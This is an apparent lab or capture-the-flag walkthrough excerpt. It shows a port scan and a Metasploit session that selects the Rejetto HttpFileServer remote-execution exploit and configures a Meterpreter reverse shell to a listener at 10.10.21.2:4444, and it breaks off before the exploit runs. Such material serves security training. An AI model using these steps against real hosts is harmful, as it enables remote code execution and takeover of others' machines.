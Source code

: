 ```
----        ----  -----  ----           -----  ----
10.0.29.37  80    tcp    http           open   HttpFileServer httpd 2.3
10.0.29.37  135   tcp    msrpc          open   Microsoft Windows RPC
10.0.29.37  139   tcp    netbios-ssn    open   Microsoft Windows netbios-ssn
10.0.29.37  445   tcp    microsoft-ds   open
10.0.29.37  3389  tcp    ms-wbt-server  open   Microsoft Terminal Services

```

```
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.29.37       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0
                                         .0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.21.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
```